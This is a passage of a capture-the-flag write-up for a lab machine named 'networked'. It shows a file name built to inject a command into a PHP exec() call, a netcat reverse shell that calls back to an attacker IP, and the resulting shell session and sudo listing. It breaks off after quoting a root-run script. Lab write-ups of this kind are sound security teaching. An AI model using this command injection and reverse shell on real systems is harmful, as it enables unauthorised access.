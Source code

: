 the script is checking for an malicoius file at `/var/www/html/uploads/` by using `scandir` which return list of files name (array) in the directory. If there are a malicoius file, an eamil is send to alert *Guly*. There are 1 varible that we can manipulate it, which is `$value`. 

`$value` is a file name from `/var/www/html/uploads/`. Note that `$value` is passed to `exec()`, `exec()` is use to execute command on the system which mean we can fool the system by create a file with a malicoius bash code as a file name. Note that the file name cannot incloude `/` so I decided to use `nc -c bash 10.10.14.43 9696`
```console
$ touch -- ";nc -c bash 10.10.14.43 9696;.php"
```
on kali
```console
┌──(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ nc -nlvp 9696                                                                                                    1 ⨯
listening on [any] 9696 ...

connect to [10.10.14.43] from (UNKNOWN) [10.10.10.146] 43712
whoami
guly
python -c "import pty; pty.spawn('/bin/bash')"
[guly@networked ~]$ ^Z
[1]+  Stopped                 nc -nlvp 9696
[10.10.14.43]-bibo318@parrot:~$ stty raw -echo;fg
nc -nlvp 9696
             export TERM=xterm
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

# root
```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```